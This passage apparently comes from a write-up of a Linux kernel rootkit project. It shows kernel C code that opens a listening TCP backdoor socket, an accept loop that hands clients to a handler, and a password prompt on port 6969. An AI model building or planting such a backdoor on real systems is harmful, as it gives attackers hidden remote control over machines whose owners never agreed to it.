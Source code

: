 For the connection between the rootkit and the user i choosed to create a socket, using the  [socket](https://www.kernel.org/doc/html/v5.6/networking/kapi.html#c.socket) struct and [sockaddr_in](https://www.gta.ufrj.br/ensino/eel878/sockets/sockaddr_inman.html) struct in order to open a socket on a choosen port for communication.

```c
// Set up the address struct with the port number
// AF_INET = ipv4 | AF_INET6 = ipv6
// INADDR_ANY (0.0.0.0) | INADDR_LOOPBACK (127.0.0.1)
memset(&sin, 0, sizeof(sin));
sin.sin_family = AF_INET;
sin.sin_addr.s_addr = htonl(INADDR_ANY);
sin.sin_port = htons(PORT);

// Create the socket
// AF_INET = ipv4 | AF_INET6 = ipv6
// SOCK_STREAM = TCP | SOCK_DGRAM = UDP
// IPPROTO_TCP = TCP | IPPROTO_UDP = UDP
err = sock_create(AF_INET, SOCK_STREAM, IPPROTO_TCP, &sock);

// Bind the socket to the address
// binding an addresses is an association between service and ip
err = kernel_bind(sock, (struct sockaddr *)&sin, sizeof(sin));
```

with that done we can create a socket that anyone that can connect to the PC using TCP to send and get some data thru the socket.

In order to handle the connection with the user i've created a small function to accept the connection and then release the socket after the user terminate his connection

*src/backdoor.c:296* 
```c
int handle_connections(struct socket *socket)

    while (!kthread_should_stop())
    {
        // Accept new connections
        error = kernel_accept(socket, &new_socket, 0);

        // call to the main function of our remote feature
        handle_client(new_socket); 

		// when the "main" function return release the socket
        sock_release(new_socket);
	}
```

#### Password check
In order to be able to send some command to the rootkit the user need to enter a password to get acces to it.

Once connected to the correct port (by default 6969), you will get a message:
`Enter password to continue:`
